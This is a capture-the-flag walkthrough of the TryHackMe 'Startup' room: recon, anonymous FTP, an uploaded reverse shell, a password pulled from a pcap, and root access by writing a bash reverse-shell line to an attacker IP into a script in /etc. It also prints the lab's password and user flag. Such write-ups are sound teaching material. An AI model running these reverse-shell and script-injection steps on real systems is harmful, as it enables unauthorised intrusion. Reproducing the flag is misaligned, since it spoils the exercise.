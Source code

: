 Room: Startup
Link: https://tryhackme.com/room/startup
Machine IP: 10.10.55.197

### Recon 
<h5> Nmap Scan </h5>
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Also during nmap scan we see that anonymous login is allowed so we will take a look at that in a min but first let's have a look at dirb scan.

<h5> Dirb Scan </h5>

dirb scan gives us a directory named files a

directory.png



### Enumeration
Now connecting to the ftp server we find a image file and a txt file downloading them to our machine and now seeing the contents of txt file it says "Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus."

Well didn't get much out of it.
Now looking at the image we see

<h5> Reverse shell</h5> 
We don't have the write permissions on "/" directory so we upload the rev shell file on ftp directory and it is successful.

  upload.png

Starting a listener and we have our reverse shell.
  
   recipe.png

Moving to the incidents directory we find a .pcapng file and to download that file we copy the file from the target machine to its open ftp server 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/

Downloading the file on our machine.
 
  suspicious.png

Typing the command strings suspicious.pcapng scrolling down and we see the password for www-data.
 c4ntg3t3n0ughsp1c3

  password.png

Stabilizing our reverse shell by using the following command.
  python -c 'import pty; pty.spawn("/bin/sh")'

Entering the above found password for lennie we get access. Moving to the home/lennie directory we have our user flag: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

<h5> PrivEsc </h5>
Moving to the scripts folder.


Using the following command and print the reverse shell command in the print.sh file so that we can get a privileged shell
 lennie.png

echo 'bash -c "bash -i >& /dev/tcp/10.9.162.197/8080 0>&1"' > /etc/print.sh

After this we get a privileged shell and we have our root flag

 root.png
 